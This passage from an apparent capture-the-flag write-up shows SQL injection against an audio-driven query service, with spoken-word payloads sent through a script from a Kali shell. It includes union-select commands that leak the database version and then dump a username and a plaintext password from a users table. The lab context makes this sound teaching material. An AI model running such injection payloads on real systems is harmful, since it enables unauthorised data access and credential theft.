 ### Enumerate Database

Standard SQL Injection practices were made almost impossible because of the need to submit it as a audio request. I could get something like the version:

```

root@kali# ./query_ai.sh "open single quote space union select version open parenthesis close parenthesis comment database"
Our understanding of your input is : '  union select version()-- -
Query result : 5.7.27-0ubuntu0.18.04.1

```

But many other things were too difficult. For example, I couldn’t get it to see `schema`:

```

root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore schema period tables comment database"
Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation under scorched.tables -- -
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'scorched.tables -- -'' at line 1

```

I got a bit closer messing with the spelling:

```

root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore skima period tables comment database"
Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation_scheme a.tables -- -
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '.tables -- -'' at line 1

```

But never got it to work.

### Username / Password

I decided to take another tact and guess that there might be a users table, and I was right! In fact, with some guessing, I could get a user and a password:

```

root@kali# ./query_ai.sh "open single quote space union select space username space from users comment database"
Our understanding of your input is : '  union select   username   from users -- -
Query result : alexa
root@kali# ./query_ai.sh "open single quote space union select space password space from users comment database"
Our understanding of your input is : '  union select   password   from users -- -
Query result : H,Sq9t6}a<)?q93_

```
